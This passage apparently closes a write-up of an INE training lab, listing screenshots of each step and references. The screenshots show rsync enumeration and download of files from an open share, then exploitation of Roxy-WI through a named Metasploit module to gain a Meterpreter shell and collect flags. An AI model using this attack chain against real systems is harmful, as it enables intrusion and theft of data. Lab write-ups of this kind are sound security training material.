| # | Filename | Status | Description & Key Evidence |
| :---: | :--- | :---: | :--- |
| **01** | `01-lab-overview.png` | **Available** | INE lab dashboard confirming 4 of 4 flags captured and activity finished. |
| **02** | `02-nmap-target1-rsync-scan.png` | **Available** | Nmap port scan on `target1.ine.local` detecting port 873/tcp running RSYNC protocol 31. |
| **03** | `03-target1-rsync-banner-flag1.png` | **Available** | Executing `rsync target1.ine.local::` uncovering module `backupwscohen` and Flag 1 in comment. |
| **04** | `04-target1-rsync-module-listing.png` | **Available** | Running `rsync --list-only` showing `TPSData.txt`, `office_staff.vhd`, and `pii_data.xlsx`. |
| **05** | `05-target1-rsync-file-download.png` | **Available** | Running `mkdir rsync_files` and `rsync -av` to download files locally. |
| **06** | `06-target1-flag2-retrieval.png` | **Available** | Reading `pii_data.xlsx` with `cat` to extract Flag 2. |
| **07** | `07-nmap-target2-service-scan.png` | **Available** | Nmap scan on `target2.ine.local` detecting Apache 2.4.52 and Roxy-WI on ports 80/443. |
| **08** | `08-msf-search-roxy-wi.png` | **Available** | Searching `msfconsole` for `Roxy-WI` and finding `exploit/linux/http/roxy_wi_exec`. |
| **09** | `09-msf-roxy-wi-options.png` | **Available** | Inspecting module options and setting payload parameters in msfconsole. |
| **10** | `10-msf-roxy-wi-exploitation.png` | **Available** | Setting `rhosts`/`lhost`, running `exploit`, vulnerability confirmation, and session 1 opened. |
| **11** | `11-meterpreter-shell-target2.png` | **Available** | Spawning interactive shell from Meterpreter, traversing to `/`, and listing directory. |
| **12** | `12-target2-flag3-retrieval.png` | **Available** | Executing `cat flag.txt` to extract Flag 3. |
| **13** | `13-target2-flag4-cron-discovery.png` | **Available** | Running `grep -ri "flag" /etc` uncovering Flag 4 inside `/etc/cron.d/www-data-cron`. |

---

## 23. References

- [CVE-2022-31137: Roxy-WI Remote Code Execution Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2022-31137)
- [Rapid7 Metasploit Exploit Module: roxy_wi_exec](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/roxy_wi_exec.rb)
- [MITRE ATT&CK: Command and Scripting Interpreter: Unix Shell (T1059.004)](https://attack.mitre.org/techniques/T1059/004/)
- [MITRE ATT&CK: Scheduled Task/Job: Cron (T1053.003)](https://attack.mitre.org/techniques/T1053/003/)
- [MITRE ATT&CK: Data from Information Repositories (T1213)](https://attack.mitre.org/techniques/T1213/)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- [RSYNC Documentation: rsyncd.conf Manpage](https://download.samba.org/pub/rsync/rsyncd.conf.5)
